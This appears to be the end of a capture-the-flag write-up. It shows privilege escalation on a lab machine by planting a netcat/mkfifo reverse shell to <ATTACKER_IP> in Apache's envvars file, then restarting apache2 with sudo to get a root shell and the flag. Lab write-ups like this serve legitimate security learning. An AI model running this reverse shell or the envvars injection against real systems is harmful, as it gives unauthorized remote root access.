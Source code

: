 ```
$ find / -type f -writable 2>/dev/null
```

![663758509d3c8286b38f0de8314be731.png](/resources/abbc8320b4824c3380812eeea593d129.png)

The "envvars" file is used to set environment variables that can be used by Apache's configuration files and scripts. It is typically found in the Apache configuration directory, often located at `/etc/apache2`.

The `apache2` service will run any commands in the "envvars" file when the service is started, so we can write a reverse shell command to have it connect to the attacker machine.

We can edit the "envvars" file using `vim`:

```
$ vim /etc/apache2/envvars
```

Press `i` to edit the file, then add our reverse shell command:

```
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f`
```

![87dcf5c8c7516f5efe679980046afc4e.png](/resources/02f31c1c8cca442386d5404b1a4907bd.png)

After we are finished editing the file, press the `esc` key and type `:wq` to write and quit VIM.

On the attacker machine we start a listener on port 4444:

```
$ nc -nvlp 4444
```

On the victim machine as the user "anders" we restart the `apache2` service using `sudo`:

```
$ sudo /sbin/service apache2 restart
```

Back on the attacker machine listening on port 4444, we should get a connection from the victim machine. This time when we check our `id` we will be the user "root":

![f399f9a639ebb85b4ba4f15ba4886f4b.png](/resources/3e6e5298804c4e0fa89ab44ef718329f.png)

Get the root flag in `/root/root.txt`:

![69763998d34d234b296f3262679de060.png](/resources/f6ae5a4a8c994c9ca7912bc3f1691211.png)
